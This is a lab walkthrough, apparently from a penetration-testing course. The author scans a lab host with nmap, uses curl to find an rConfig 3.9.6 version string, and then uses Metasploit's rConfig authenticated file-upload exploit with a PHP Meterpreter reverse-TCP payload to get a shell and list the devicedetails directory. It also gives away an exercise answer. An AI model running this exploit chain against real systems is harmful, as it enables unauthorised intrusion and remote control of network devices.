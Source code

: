 - What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce? > PHP


- Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.

```zsh
❯ sudo nmap -sS -F 10.129.201.101 -v
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-20 04:59 EDT
Initiating Ping Scan at 04:59
Scanning 10.129.201.101 [4 ports]
Completed Ping Scan at 04:59, 0.30s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:59
Completed Parallel DNS resolution of 1 host. at 04:59, 0.05s elapsed
Initiating SYN Stealth Scan at 04:59
Scanning 10.129.201.101 [100 ports]
Discovered open port 80/tcp on 10.129.201.101
Discovered open port 443/tcp on 10.129.201.101
Discovered open port 111/tcp on 10.129.201.101
Discovered open port 22/tcp on 10.129.201.101
Discovered open port 3306/tcp on 10.129.201.101
Discovered open port 21/tcp on 10.129.201.101
Completed SYN Stealth Scan at 04:59, 1.10s elapsed (100 total ports)
Nmap scan report for 10.129.201.101
Host is up (0.27s latency).
Not shown: 94 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
3306/tcp open  mysql

```

```zsh
❯ curl https://10.129.201.101/login.php -k | grep -i "ver"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5866  100  5866    0     0   4348      0  0:00:01  0:00:01 --:--:--  4351
        <p>rConfig Version 3.9.6<span>&nbsp;&nbsp;&nbsp;</span>&copy; rConfig 2015 - 2025</p>
```

```zsh
❯ sudo msfconsole -q
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set rhosts 10.129.201.101
rhosts => 10.129.201.101
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set lhost tun0
lhost => tun0
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > run

meterpreter > ls -l devicedetails
Listing: devicedetails
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  568   fil   2021-10-18 17:23:40 -0400  edgerouter-isp.yml
100644/rw-r--r--  179   fil   2021-10-18 17:28:03 -0400  hostnameinfo.txt

```